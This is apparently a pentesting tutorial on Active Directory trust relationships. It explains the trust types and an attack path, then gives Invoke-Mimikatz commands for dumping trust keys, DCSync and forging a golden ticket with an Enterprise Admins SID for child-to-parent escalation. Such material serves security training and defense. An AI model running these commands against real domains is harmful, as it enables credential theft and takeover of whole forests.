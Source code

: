 **Different trusting relationships:**

* **Parent/Child** – part of the same forest – a child domain retains an implicit two-way transitive trust with its parent. This is probably the most common type of trust that you’ll encounter.
* **Cross-link** – aka a “shortcut trust” between child domains to improve referral times. Normally referrals in a complex forest have to filter up to the forest root and then back down to the target domain, so for a geographically spread out scenario, cross-links can make sense to cut down on authentication times.
* **External** – an implicitly non-transitive trust created between disparate domains. “[External trusts provide access to resources in a domain outside of the forest that is not already joined by a forest trust.](https://technet.microsoft.com/en-us/library/cc773178%28v=ws.10%29.aspx)” External trusts enforce SID filtering, a security protection covered later in this post.
* **Tree-root** – an implicit two-way transitive trust between the forest root domain and the new tree root you’re adding. I haven’t encountered tree-root trusts too often, but from the [Microsoft documentation](https://technet.microsoft.com/en-us/library/cc773178%28v=ws.10%29.aspx), they’re created when you when you create a new domain tree in a forest. These are intra-forest trusts, and they [preserve two-way transitivity](https://technet.microsoft.com/en-us/library/cc757352%28v=ws.10%29.aspx) while allowing the tree to have a separate domain name \(instead of child.parent.com\).
* **Forest** – a transitive trust between one forest root domain and another forest root domain. Forest trusts also enforce SID filtering.
* **MIT** – a trust with a non-Windows [RFC4120-compliant](https://tools.ietf.org/html/rfc4120) Kerberos domain. I hope to dive more into MIT trusts in the future.

### Attack Path

1. **Enumerate** the trusting relationships
2. Check if any **security principal** \(user/group/computer\) has **access** to resources of the **other domain**, maybe by ACE entries or by being in groups of the other domain. Look for **relationships across domains** \(the trust was created for this probably\).
   1. kerberoast in this case could be another option.
3. **Compromise** the **accounts** which can **pivot** through domains. 

There are three **main** ways that security principals \(users/groups/computer\) from one domain can have access into resources in another foreign/trusting domain:

* They can be added to **local groups** on individual machines, i.e. the local “Administrators” group on a server.
* They can be added to **groups in the foreign domain**. There are some caveats depending on trust type and group scope, described shortly.
* They can be added as principals in an **access control list**, most interesting for us as principals in **ACEs** in a **DACL**. For more background on ACLs/DACLs/ACEs, check out the “[An ACE Up The Sleeve](https://specterops.io/assets/resources/an_ace_up_the_sleeve.pdf)” whitepaper.

### Child-to-Parent forest privilege escalation

Also, notice that there are **2 trusted keys**, one for _Child --&gt; Parent_  and another one for P_arent --&gt; Child_.

```bash
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:7ef5be456dc8d7450fb8f5f7348746c5 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
/domain:<Current domain>
/sid:<SID of current domain>
/sids:<SID of the Enterprise Admins group of the parent domain>
/rc4:<Trusted key>
/user:Administrator
/service:<target service>
/target:<Other domain>
/ticket:C:\path\save\ticket.kirbi
```